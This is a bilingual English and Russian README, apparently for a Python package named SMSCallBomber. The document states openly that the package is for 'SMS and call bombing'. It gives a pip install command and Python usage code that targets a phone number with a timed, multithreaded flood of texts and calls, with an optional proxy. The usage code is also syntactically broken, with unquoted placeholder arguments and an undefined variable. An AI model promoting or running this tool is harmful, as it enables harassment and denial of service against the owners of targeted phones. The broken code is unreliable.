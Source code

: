 # SMSCallBomber

## English

### Description

This library provides functionality for SMS and call bombing.

### Installation

You can install the SMSCallBomber library via pip:

```bash
pip install SMSCallBomber
```

### Usage

```python
from smscallbomber import SMSCallBomber
import time
import threading
from argparse import Namespace

# Creating an instance of SMSCallBomber
args = Namespace(country='Two letter country code (Specify ALL for all countries)', phone=Phone number for attack (without +), time=Attack time in seconds, threads=Number of threads, timeout=Request timeout, proxy=Whether to use a proxy for attack (True or False))
args.time += time.time()

attack_threads = {}

# Starting the attack
def attack_thread_runner(args, message):
    bomber = SMSCallBomber(args)
    bomber.run()
    return bomber

attack_threads = threading.Thread(target=attack_thread_runner, args=(args))
attack_threads.start()

# Stopping the attack
attack_threads.join(0)
del attack_threads
time.sleep(5) # Increase the time if the results contain zeros
successful, failed = bomber.send_report()
print(f"Successfully sent (Not everyone can get there!): {successful}")
print(f"Failed to send: {failed}")

# Returns the result of the attack after it ends
time.sleep(5) # Increase the time if the results contain zeros
successful, failed = bomber.send_report()
print(f"Successfully sent (Not everyone can get there!): {successful}")
print(f"Failed to send: {failed}")
```

### Donation

If you find this project helpful and would like to support its development, you can make a donation to the author.

- YooMoney: 4100118510603906
- Cards:
  - 2200 7009 6755 8080 - Tinkoff
  - 2202 2068 1279 8101 - Sberbank
- Other methods: [t.me/BabayHelpBot](https://t.me/BabayHelpBot)

### License

This project is licensed under the MIT License.

## Русский

### Описание

Эта библиотека предоставляет функционал для SMS бомбера со звонками.

### Установка

Вы можете установить библиотеку SMSCallBomber с помощью pip:

```bash
pip install SMSCallBomber
```

### Использование

```python
from smscallbomber import SMSCallBomber
import time
import threading
from argparse import Namespace

# Создание экземпляра SMSCallBomber
args = Namespace(country='Двухбуквенный код страны (Укажите ALL для всех стран)', phone=Номер телефона для атаки (без +), time=Время атаки в секундах, threads=Количество потоков, timeout=Время ожидания запроса, proxy=Использовать ли прокси для атаки (True или False))
args.time += time.time()

attack_threads = {}

# Запуск атаки
def attack_thread_runner(args, message):
    bomber = SMSCallBomber(args)
    bomber.run()
    return bomber

attack_threads = threading.Thread(target=attack_thread_runner, args=(args))
attack_threads.start()

# Остановка атаки
attack_threads.join(0)
del attack_threads
time.sleep(5) # Увеличьте время если в результатах по нулям
successful, failed = bomber.send_report()
print(f"Успешно отправлено(Дойти могут не все!): {successful}")
print(f"Не удалось отправить: {failed}")

# Возвращает результат атаки после её окончания
time.sleep(5) # Увеличьте время если в результатах по нулям
successful, failed = bomber.send_report()
print(f"Успешно отправлено(Дойти могут не все!): {successful}")
print(f"Не удалось отправить: {failed}")
```

### Пожертвование

Если вы нашли этот проект полезным и хотели бы поддержать его развитие, вы можете сделать пожертвование автору.

- ЮMoney: 4100118510603906
- Карты:
  - 2200 7009 6755 8080 - Тинькофф
  - 2202 2068 1279 8101 - Сбербанк
- Другие способы: [t.me/BabayHelpBot](https://t.me/BabayHelpBot)

### Лицензия

Этот проект распространяется под лицензией MIT License.